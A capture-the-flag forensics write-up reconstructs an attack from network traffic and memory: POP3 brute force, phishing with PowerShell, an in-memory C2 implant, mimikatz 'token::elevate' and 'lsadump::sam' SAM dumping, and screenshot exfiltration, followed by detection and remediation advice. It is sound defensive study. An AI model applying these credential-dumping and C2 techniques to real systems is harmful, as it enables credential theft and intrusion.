
_The response uses `Transfer-Encoding: chunked`; note the chunk-size lines like `f61` and `ff9`._

Copying it out of Follow Stream didn't work. The copy included extra data between packets (the size lines of HTTP chunked transfer encoding), which broke the Base64. Exporting the reassembled body from Wireshark (File → Export Objects → HTTP) fixed it.


_Decrypted directly to a .NET DLL (`MZ` header, `_CorDllMain`, `mscoree.dll`), with no task wrapper._

It decrypts straight into a DLL with no outer wrapper, and arrives immediately once the encryption handshake is complete. This is more than likely the core implant the stager was created to download, giving us the shape:

Initial Email containing PowerShell -> Downloads stager straight into memory -> Stager sets up encryption and then downloads the implant.



_C2 communication, reflective code loading, and several discovery techniques._

This payload, according to the capa output, performs System Information Discovery, Account Discovery, Network Configuration Discovery, and System Owner/User Discovery. It is the attacker performing recon on the victim's computer.

### The implant checks in



_The implant reporting what it found (frame 4804)._

If we inspect the victim's first message after that payload (frame 4804), it states the process is PowerShell with `integrity: 3`, which almost certainly maps to Windows' `High` integrity level. That lines up with the email asking the user to run the initial PowerShell as an administrator. It also shows that it is running as userName `Administrator`.

It also includes the hostname, domain, IP, and OS version, all of which are useful for the attacker. It also shows what looks like the implant's own configuration, delay 5 jitter 10, which matches the ~5s interval of the empty check-ins seen throughout the rest of the capture.

We can see one of those on frame 4808, the next message from the victim to the attacker which decrypted into an empty 16-byte block.


_An empty message._

### The first task: whoami

The next message from the attacker was at frame 4855. It was an Assembly we had to inflate to see.


_A small chunk of the compressed payload._

Unlike the implant, this one arrived wrapped as a task, `{"type":"Assembly","name":"…","message":"…"}`, with the assembly compressed inside the message field. That suggests instructions to the running implant take the form of compressed .NET assemblies.

Running it through capa shows us an interesting response.


_capa reports this as being packed and obfuscated._

While we could use verbose flags to see more, we can look at what the response is first to get a better picture of what was returned.


_Here's the victim's response to the 4855 instruction._

While I am not sure what that status code is yet, the second field looks familiar. In my experience doing pen-testing labs, one of the first things I do when I get access to a machine is to see who I am logged in as, and the format for Windows machines shows Domain\Username, which matches the domain we got earlier. More than likely this is the attacker running a command like `whoami`.


### Dumping the SAM: Q5

We look further down the TCP stream and find an absolutely massive payload sent from the attacker which ended with frame 6202 (it started at frame 4876). If we extract the combined content and analyze it in CyberChef we get the following:


_A small snippet of the payload._

After downloading it and analyzing its strings, I found some helpful clues.


_Hey look, I found a wild mimikatz string!_


_A more targeted look for keywords in the strings._

So we can see the payload was built around mimikatz, and has both `token::elevate` and `lsadump::sam` as instructions at the tail end of the message. 


_Instructions decoded from the tail end of the mimikatz payload._

We know we need to look for that SAM dump/NTLM hash, so we should check the response to this payload for the answer to Q5.

- **`token::elevate`** — impersonates a **SYSTEM** token (the output shows the impersonation succeeding)
- **`lsadump::sam`** — dumps the local SAM database: SysKey, SAMKey, and NTLM hashes for every local account

The response from the victim (frame 6212) is **mimikatz** output, from running inside PowerShell through the C2, entirely in memory:


_mimikatz, running inside PowerShell through the C2._

That's **Q5**.

### The screenshot: Q6

Near the end, the attacker sent another `Assembly` task. Decrypting, decoding, and inflating it showed a screen-capture tool (frame 6265).


_Image and screen-capture functionality._

After it came two large sends from the victim (reconstructed in frames 6826 and 6837), which made sense as images.


_`"status":"2"`, and an `output` starting with `iVBORw0KGgo`._

I didn't recognize the output at first. Searching the first characters showed that `iVBORw0KGgo` is how a PNG file's header looks in Base64 (it decodes to `\x89PNG\r\n\x1a\n`).


_"Unexpected end of file": only part of the image._

Decoded and saved on its own, the image was incomplete. The second send held the rest:


_`"status":"3"`, with output starting in the middle of image data._

While I am not sure exactly what status 2 vs status 3 means in this context, I can deduce it. The status 2 message had a clear PNG header at the start of the data, but did not open properly, so it was missing something/corrupted. The status 3 message did not have that PNG header and didn't clearly translate into anything. Looking back at the previous response to the mimikatz payload, it was status 3, so I figured status 2 meant "continue" of sorts, where status 3 is "complete". There was also a status 3 in the small message earlier (4866) that looked like a `whoami`, so that further backs the thought that 3 means "complete".

I Base64-decoded each part separately and joined the raw bytes in order:


```bash
cat part1.png part2.png > screenshot.png
```

You need to make sure when combining them to decode them individually. Base64 requires specific lengths and will pad the results. Since the files were encoded separately, the files have their own padding that need to be decoded separately before the merge.


_The victim's desktop, with the flag in the corner._

That's **Q6**.

## Revisiting the early spike

There is also a spike around 2-3 seconds I did not investigate in the lab. Looking back at it:


_A bunch of SYN requests to various ports, automated port scan._


_Looks like a web crawler, sending requests to various web pages on victim's machine._

There is evidence of a SYN scan against the victim's PC, along with a handful of GET requests on port 80, all returned 200 OK, indicating a web crawler over an HTTP website. It had several JPEG images which explains the JPEG traffic in the protocol hierarchy.

## Timeline

| Time (s) | Frame | Event | Evidence |
|---|---|---|---|
| 0.064s - 0.343s | 3 - 2484 | SYN scan of the victim's ports | SYN burst to many ports.|
| 2.768s - 3.084s | 2491 - 2702 | A web crawl of its HTTP site | GET requests returning `200 OK` |
| 8.008s | 2710 | POP3 `CAPA` (capabilities) probe | `CAPA` → `USER`, `UIDL`, `TOP` |
| 8.345s - 12.601s | 2720 - 4642 | Parallel brute force of POP3 | SYN burst at the same timestamp; `USER`/`PASS`/`-ERR` |
| 9.821s | 3404 | Successful POP3 login | `+OK Mailbox locked and ready` |
| 17.624s | 4650 | SMTP server greeting | `220 mail.eventhorizon.thm ESMTP` |
| 17.625s | 4656 | Attacker sends username | `AUTH LOGIN` username (Base64, redacted) |
| 17.626s | 4658 | Attacker sends password | `AUTH LOGIN` password (Base64, redacted) |
| 17.626s | 4659 | Server authenticates the attacker | `235` authenticated |
| 18.714s | 4681 | Server queues the phishing email for delivery | `250 Queued` |
| 49.473s | 4722 | Victim requests the stager | `GET /radius.ps1` |
| 49.601s | 4742 | Victim sends its RSA public key | Decrypts (initial key) to `<RSAKeyValue>` |
| 49.690s | 4745 | Attacker sends the encrypted session key | 256 bytes after AES decryption |
| 49.693s | 4749 | Victim sends a challenge | `70 22 07 41` |
| 49.735s | 4751 | Attacker responds and counter-challenges | `70 22 07 41 d9 d4 b2 b0` |
| 49.736s | 4755 | Victim answers the counter-challenge | `d9 d4 b2 b0` |
| 49.904s - 49.905s | 4757 - 4797 | Attacker delivers the implant | Decrypts directly to a .NET DLL (`MZ`) |
| 49.928s | 4804 | Implant registers with host details | `integrity: 3`, `Administrator`, `delay: 5` |
| 49.976s | 4808 | Empty check-in | One 16-byte block, no content |
| ~55s - 151s | — | Implant checks in every ~5 s between tasks | `delay: 5, jitter: 10` in the registration |
| 80.494s | 4840 - 4855 | Attacker sends a whoami task | `"type":"Assembly"`, no arguments |
| 85.570s | 4866 | Victim returns the whoami result | `eventhorizon\administrator` |
| 95.709s - 95.715s | 4876 - 6202 | Attacker sends the mimikatz task | Arguments: `token::elevate lsadump::sam` |
| 101.123s | 6212 | Victim returns the mimikatz output (next check-in) | SAM dump, NTLM hashes |
| 141.445s | 6249 - 6265 | Attacker sends the screenshot task | `"type":"Assembly"` |
| 146.503s - 146.569s | 6271 - 6826 | Victim sends screenshot part 1 | `status 2`, output starts with `iVBORw0KGgo` |
| 146.505s - 146.567s | 6306 - 6456, 6712 - 6814 | Walls of TCP retransmissions during the upload | |
| 151.751s - 151.754s | 6834 - 6837 | Victim sends screenshot part 2 | `status 3` |

Mapping that back to the I/O graph from the triage section:

- **Spike around 2–3s** -> Port scan and web crawl of the victim
- **Spike around 10s** -> Brute force of POP3
- **Spike around 50s** -> Setting up the C2 and delivering the implant
- **2 very small bumps at 80s and 85s** -> The whoami task and its result
- **Large spike at 95s** -> Sending the mimikatz payload (its output followed at the next check-in, ~101s)
- **Large spike at 145s** -> Sending the screenshot (includes the wall of TCP retransmission errors)

## Detection and remediation

This attack could have been prevented in several ways that I'd like to review.

In this capture, the attacker and victim are on the same subnet (10.0.2.45 and 10.0.2.46). Part of that is simply how the lab's network is built, but in a real environment it would mean that, whatever the original entry point, the attack happened *inside* the network perimeter. That could be someone connecting to the Wi-Fi, a machine compromised through another attack vector and used to pivot, or an insider threat. Which one is purely speculation, but it means we need to consider how we protect the network from internal threats, not just external ones.

- Segment the network. Put guest devices on their own VLAN, isolated from internal servers, and limit which internal hosts can reach sensitive services at all. There's little reason for an arbitrary host to be able to talk to the mail server's POP3 service.
- Implement endpoint detection, and don't rely purely on border protections to stop attacks.

Once the attacker had their initial foothold on the network, the .45 address, they began a port scan to identify what was running on the .46 host. They were able to identify both a POP3 and SMTP service running on the server that they chose to leverage for the takeover. That port scan was already very noisy, creating a noticeable and abnormal spike in traffic on the LAN that could have easily been detected with proper alarms.

They then brute-forced the POP3 service in seconds. This is really two separate problems. The first is the brute force itself: this is a lab, so the password was simple enough to be in a wordlist, but enforcing stronger passwords would make brute forcing take much longer and give SOC analysts more time to respond. Enforcing lockout or rate limiting, and alerting on bursts of failed logins, would make it much more difficult, if not outright impossible.

The second problem is that POP3 is outdated and unencrypted, and we could clearly see credentials sent in plaintext. The same was true for the SMTP login, which was only Base64-encoded. Switching to POP3S (or STARTTLS) and encrypted SMTP submission would stop anyone listening on the network from simply reading credentials. MFA would also help, but POP3 doesn't support it on its own. The realistic fix is disabling legacy mail protocols that use basic authentication and requiring modern authentication with MFA. Legacy protocols like POP3 are a well-known way around MFA.

Once the attacker had a working POP3 login, they used it to authenticate with the SMTP server and had free rein to send emails from the compromised inbox. Because the mail came from a real account through the real server, it passes traditional sender checks, which makes it harder to detect. The email in this case contained a malicious PowerShell script and instructions to the employee to run it as Administrator. The mail gateway should be configured to block dangerous attachments. General blocks against attached PowerShell scripts would have prevented the initial vector. Proper training on how to handle suspicious emails and attachments adds a layer of protection against these attacks, and running phishing campaigns for awareness and retraining helps monitor compliance. Limiting employees' privileges according to their job roles also helps minimize the blast radius of anything that does get run: if a user doesn't need admin rights, don't give them. We could also monitor Windows event logs for unusual scripts being run (event 4104 records the PowerShell script blocks as they execute, including deobfuscated content), with alarms for known malicious patterns like the `IEX` download cradle we saw in this lab. AMSI scans PowerShell and in-memory .NET loads at runtime, helping with detection of in-memory attacks. AMSI only helps if an AV/EDR product is actually acting on what it sees, and with one in place, this chain had a good chance of being caught.

Once that script ran, the victim's computer downloaded a new payload and ran it in memory, so file-based detection would not have caught it. We could monitor for unusual traffic on the network instead. In this case the C2 used port 8081, which is an abnormal port for most computers on the LAN to communicate over. Workstations should be blocked from communicating with each other on arbitrary ports. We can also set alarms based on the `i=` value to profile the communications and use for detection, since it didn't change across the C2 traffic.

The victim's PC executed this whole chain of .NET payloads as an administrator, which let the attacker elevate to SYSTEM and read the SAM. Because the user was logged in and running commands as Administrator, the attacker had easy access to the sensitive NTLM hashes. Least privilege, as mentioned above, would have helped here as well, since without admin rights `token::elevate` fails and the SAM stays out of reach. Rotating local admin passwords with LAPS keeps leaked hashes from being usable on other machines. Endpoint detection systems can also detect mimikatz running, even when it's purely in memory.

## Takeaways

This was my first real forensics lab, and required a very different mindset for me to complete. The actual evidence gave me a good pointer on where to start. A pcap indicated network analysis and the dump meant something was executed in memory. 

It took me the better part of two days, and I got lost decrypting the C2 traffic on night one. Looking back, there are tools that *can* help with this, and had I known the specific C2 framework I could have found a decryption tool. I ended up writing my own tool to assist, which was a fun experience and will stay in my tool belt going forward. I also feel like I have a much stronger baseline on how encryption works, especially more complicated "key exchanges" where a public key is sent, an encrypted session key for AES is sent back, and then is used going forward. That is exactly the process I learned while studying for my Security+ cert; asymmetric is used for the key exchange, and then symmetric is used from there as it's much more efficient. The only reason I was able to see the traffic at all after that exchange is having the memory dump.

I already had some decent experience with Wireshark which helped with this lab, but this is my most in-depth experience with it to date. I did run into one issue where I tried copying a large chunk of data from the follow stream that bridged several frames, then could not interpret it in CyberChef. I switched at that point to exporting objects directly from Wireshark for anything that bridged more than one frame. Beyond Wireshark, I got to use capa and CyberChef, two tools I recently learned about, and they were both tremendously helpful in my work.

I also learned details about the BLOBs, the difference between the older CryptoAPI and CNG, and how to get the private key I needed out of both. While the lab only had CNG keys, I tested my script against CryptoAPI test keys on the side.

While there were points I got stuck, coming back the next day with a fresh mind and a cleaner approach helped me overcome them. Day one I did not keep great track of the actual frame numbers and timestamps which made it harder to track the entire timeline, so in the future I plan on doing a better job, so I don't end up repeating work the way I did after I got lost. I also kept forgetting to use `-el` when extracting strings, which caused empty/invisible returns on the .NET files until I remembered it.

Overall I think this lab was pretty engaging and definitely felt good to solve. I love problem-solving and the forensics process was interesting, and I plan on trying to incorporate more forensics labs in the future.